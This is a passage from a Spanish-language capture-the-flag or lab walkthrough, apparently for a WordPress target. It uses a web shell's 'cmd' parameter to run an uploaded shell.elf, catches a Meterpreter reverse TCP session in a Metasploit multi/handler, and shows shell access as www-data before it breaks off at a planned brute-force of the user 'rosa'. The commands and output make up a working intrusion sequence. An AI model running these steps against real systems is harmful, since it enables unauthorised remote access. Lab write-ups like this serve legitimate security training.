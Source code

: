 Comprobemos que se descargo correctamente en la carpeta `/tmp` nuestro archvivo `.elf`.

```
URL = http://<IP>/wordpress/index.php?cmd=ls -la /tmp&love=<CONTENT_GENERATE>
```

Info:

```
total 12
drwxrwxrwt 1 root     root     4096 Aug 15 14:07 .
drwxr-xr-x 1 root     root     4096 Aug 15 13:35 ..
-rw-r--r-- 1 www-data www-data  250 Aug 15 14:06 shell.elf
```

Veremos que que esta todo correcto, por lo que haremos lo siguiente.

Abrimos metasploit, para preparar nuestra escucha.

```shell
msfconsole -q
```

Utilizamos el modulo de la escucha.

```shell
use multi/handler
```

Configuramos todo como en `msfvenom`.

```shell
set payload linux/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Ejecutamos la escucha.

```shell
run
```

Estando a la escucha lo ejecutamos desde la URL de la siguiente forma.

```
URL = http://<IP>/wordpress/index.php?cmd=/tmp/shell.elf&love=<CONTENT_GENERATE>
```

Y si volvemos a donde teniamos la escucha veremos que obtuvimos una shell como el usuario `www-data`.

```
[*] Started reverse TCP handler on 192.168.5.145:7777 
[*] Sending stage (3045380 bytes) to 172.23.0.2
[*] Meterpreter session 1 opened (192.168.5.145:7777 -> 172.23.0.2:40606) at 2024-08-15 13:11:49 -0400

meterpreter >
```

Pero veremos que no hay gran cosa, por lo que haremos fuerza bruta con el usuario `rosa` y veremos lo siguiente.
